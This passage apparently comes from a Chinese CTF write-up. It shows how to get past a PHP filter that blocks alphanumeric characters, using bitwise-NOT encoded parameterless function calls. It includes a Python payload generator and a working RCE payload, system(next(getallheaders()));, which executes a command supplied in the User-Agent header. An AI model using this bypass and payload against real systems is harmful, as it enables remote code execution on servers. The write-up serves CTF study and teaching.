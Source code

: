 我们传入的命令中不能有以下 ，

```plain
/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/，
```

想到是无字母数字，过滤了 异或 和或，留了取反。

同时我们的函数必须是无参的。

[![](assets/1698897208-2dbc1ac6c7b5a92de3ea45fd06d6d8dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47c51d7a-8d68-1.png)

类似于这种，之前在buuoj上有遇到这种题目，无参数RCE。

```plain
def one(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:].upper()
    return f"[~{ss}][!%FF]("

while 1:
    a = input(":>").strip(")")
    aa = a.split("(")
    s = ""
    for each in aa[:-1]:
        s += one(each)
    s += ")" * (len(aa) - 1) + ";"
    print(s)
```

利用脚本生成一下 payload，

试了好多遍，getallheaders() 在最后加的话用bp打好像并不是最后一个，试了好多种别的办法无果，但是 next() 后是ua头，于是我丧心病狂，直接改ua

利用 payload: `system(next(getallheaders()));`

[![](assets/1698897208-22c05a102499adb897ffd2d5d218261d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47e63636-8d68-1.png)
